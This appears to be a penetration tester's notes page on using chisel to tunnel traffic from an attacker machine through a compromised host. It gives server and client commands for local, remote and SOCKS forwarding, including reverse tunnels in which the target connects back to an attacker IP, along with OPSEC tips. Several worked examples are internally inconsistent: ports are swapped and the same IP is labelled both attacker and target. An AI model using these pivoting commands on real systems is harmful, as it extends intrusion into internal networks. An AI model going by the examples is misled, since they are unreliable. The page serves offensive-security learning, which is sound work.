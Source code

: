 # [chisel](https://github.com/jpillora/chisel)

> Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang).

**NO SSH SERVER OR CLIENT REQUIRED.**

---

## Local Port Forwarding

See [[local-port-forwarding]] for a definition and helpful diagrams.

Requires command execution access to the target, as well as the ability to listen on a TCP port on the target. To achieve the same outcome but without having to listen on a TCP port on the target, see [[chisel#Remote Port Forwarding|here]].

1. Download the appropriate binaries of [`chisel`](https://github.com/jpillora/chisel/releases) for both the attacker and the target machine. Transfer a binary to the target machine.

2. Start the `chisel` server on the target's machine:

```bash
./chisel server --port $PORT_TO_SERVE_CHISEL_ON
```

- `$PORT_TO_SERVE_CHISEL_ON` can be any available port on the target. However, keep OPSEC in mind as the attacker will connect to the target on this port.

3. Initiate the port forward from the attacker's machine using the `chisel` client:

```bash
./chisel client $HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER:$PORT_OF_CHISEL_SERVER $ATTACKER_ACCESSIBLE_SOURCE_PORT:$REMOTE_TARGET_ACCESSIBLE_DESTINATION_HOSTNAME_OR_ADDRESS:$REMOTE_TARGET_ACCESSIBLE_DESTINATION_PORT
```

- `$HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER`: the hostname or IP address of the target machine, which is the `chisel` server
- `$PORT_OF_CHISEL_SERVER`: self-explanatory
- `$ATTACKER_ACCESSIBLE_SOURCE_PORT`: the source port on the attacker that is forwarded to the destination port
- `$REMOTE_TARGET_ACCESSIBLE_DESTINATION_HOSTNAME_OR_ADDRESS`: the destination hostname/address that is forwarded to
- `$REMOTE_TARGET_ACCESSIBLE_DESTINATION_PORT`: the destination port that is forwarded to

### Example

If you wanted to forward the attacker's `0.0.0.0:8001` to the target's `localhost:8002`, you would start by serving `chisel` on an arbitrary port on the target's machine (we'll use port `8000`). The attacker's IP address is 192.168.1.100.

```bash
./chisel server --port 8000
```

On the attacker machine:

```bash
./chisel client 192.168.1.100:8000 8001:localhost:8002
```

To access the target's `localhost:8001`, connect to the attacker's `0.0.0.0:8002`.

---

## Remote Port Forwarding

See [[remote-port-forwarding]] for a definition and helpful diagrams.

Requires command execution access to the target and doesn't require opening a TCP port on the target.

1. Download the appropriate binaries of [`chisel`](https://github.com/jpillora/chisel/releases) for both the attacker and the target machine. Transfer a binary to the target machine.

2. Start the `chisel` server on the attacker's machine:

```bash
./chisel server --port $PORT_TO_SERVE_CHISEL_ON --reverse
```

- `$PORT_TO_SERVE_CHISEL_ON` can be any available port on the attacker. However, keep OPSEC in mind as the target will connect to the attacker on this port.

3. Initiate the port forward from the target's machine using the `chisel` client:

```bash
./chisel client $HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER:$PORT_OF_CHISEL_SERVER R:$ATTACKER_ACCESSIBLE_SOURCE_PORT:$REMOTE_TARGET_ACCESSIBLE_DESTINATION_HOSTNAME_OR_ADDRESS:$REMOTE_TARGET_ACCESSIBLE_DESTINATION_PORT
```

- `$HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER`: the hostname or IP address of the attacker machine, which is the `chisel` server
- `$PORT_OF_CHISEL_SERVER`: self-explanatory
- `$ATTACKER_ACCESSIBLE_SOURCE_PORT`: the source port on the attacker that is forwarded to the destination port
- `$REMOTE_TARGET_ACCESSIBLE_DESTINATION_HOSTNAME_OR_ADDRESS`: the destination hostname/address that is forwarded to
- `$REMOTE_TARGET_ACCESSIBLE_DESTINATION_PORT`: the destination port that is forwarded to

### Example

If you wanted to forward the attacker's `0.0.0.0:8001` to the target's `localhost:8002`, you would start by serving `chisel` on an arbitrary port on the attacker's machine (we'll use port `8000`). The attacker's IP address is 192.168.1.100.

```bash
./chisel server --port 8000 --reverse
```

On the target machine:

```bash
./chisel client 192.168.1.100:8000 R:8001:localhost:8002
```

To access the target's `localhost:8001`, connect to the attacker's `0.0.0.0:8002`.

---

## Dynamic Local Port Forwarding

See [[dynamic-port-forwarding#Dynamic Local Port Forwarding|dynamic local port forwarding]] for a definition and example. This follows the same principles, but uses "attacker" as the client and "target" as the server.

Requires command execution access to the target, as well as the ability to listen on a TCP port on the target. To achieve the same outcome but without having to listen on a TCP port on the target, see [[chisel#Dynamic Remote Port Forwarding|here]].

1. Download the appropriate binaries of [`chisel`](https://github.com/jpillora/chisel/releases) for both the attacker and the target machine. Transfer a binary to the target machine.

2. Start the `chisel` server on the target's machine:

```bash
./chisel server --port $PORT_TO_SERVE_CHISEL_ON --socks5
```

- `$PORT_TO_SERVE_CHISEL_ON` can be any available port on the target. However, keep OPSEC in mind as the attacker will connect to the target on this port.

3. Initiate the port forward from the attacker's machine using the `chisel` client:

```bash
./chisel client $HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER:$PORT_OF_CHISEL_SERVER $ATTACKER_ACCESSIBLE_SOCKS_PROXY_SOURCE_PORT:socks
```

- `$HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER`: the hostname or IP address of the target machine, which is the `chisel` server
- `$PORT_OF_CHISEL_SERVER`: self-explanatory
- `$ATTACKER_ACCESSIBLE_SOCKS_PROXY_SOURCE_PORT`: the [[socks]] proxy source port on the attacker that is used when forwarding traffic to the destination port

4. Use [[proxychains]] to pass traffic through this tunnel.

### Example

If you wanted to forward the attacker's `0.0.0.0:1080` through the target to `vm.tgihf.click`:`80` (which is only accessible by the target), you would start by serving `chisel` on an arbitrary port on the target's machine (we'll use port `8000`). Assume the target's IP address is 192.168.1.100.

```bash
./chisel server --port 8000
```

On the attacker machine:

```bash
./chisel client 192.168.1.100:8000 1080:socks
```

To access `vm.tgihf.click`:`80` through the tunnel, first ensure that `192.168.1.100:1080` is defined as the [[socks]] endpoint in the [[proxychains]] config. Then, on the attacker, use [[proxychains]] to make the connection.

```bash
proxychains nc -v vm.tgihf.click 80
```

---

## Dynamic Remote Port Forwarding

See [[dynamic-port-forwarding#Dynamic Remote Port Forwarding|dynamic remote port forwarding]] for a definition and example. This follows the same principles, but uses "target" as the client and "attacker" as the server.

Requires command execution access to the target and doesn't require opening a TCP port on the target.

1. Download the appropriate binaries of [`chisel`](https://github.com/jpillora/chisel/releases) for both the attacker and the target machine. Transfer a binary to the target machine.

2. Start the `chisel` server on the attacker's machine:

```bash
./chisel server --port $PORT_TO_SERVE_CHISEL_ON --reverse
```

- `$PORT_TO_SERVE_CHISEL_ON` can be any available port on the attacker. However, keep OPSEC in mind as the target will connect to the attacker on this port.

3. Initiate the port forward from the target's machine using the `chisel` client:

```bash
./chisel client $HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER:$PORT_OF_CHISEL_SERVER R:$ATTACKER_ACCESSIBLE_SOCKS_PROXY_SOURCE_PORT:socks
```

- `$HOSTNAME_OR_ADDRESS_OF_CHISEL_SERVER`: the hostname or IP address of the attacker machine, which is the `chisel` server
- `$PORT_OF_CHISEL_SERVER`: self-explanatory
- `$ATTACKER_ACCESSIBLE_SOCKS_PROXY_SOURCE_PORT`: the [[socks]] proxy source port on the attacker that is used when forwarding traffic to the destination port

### Example

If you wanted to forward the attacker's `0.0.0.0:1080` through the target to `vm.tgihf.click`:`80` (which is only accessible by the target), you would start by serving `chisel` on an arbitrary port on the attacker's machine (we'll use port `8000`). The attacker's IP address is 192.168.1.100.

```bash
./chisel server --port 8000 --reverse
```

On the target machine:

```bash
./chisel client 192.168.1.100:8000 R:1080:socks
```

To access `vm.tgihf.click`:`80` through the tunnel, first ensure that `localhost:1080` is defined as the [[socks]] endpoint in the [[proxychains]] config. Then, on the attacker, use [[proxychains]] to make the connection.

```bash
proxychains nc -v vm.tgihf.click 80
```
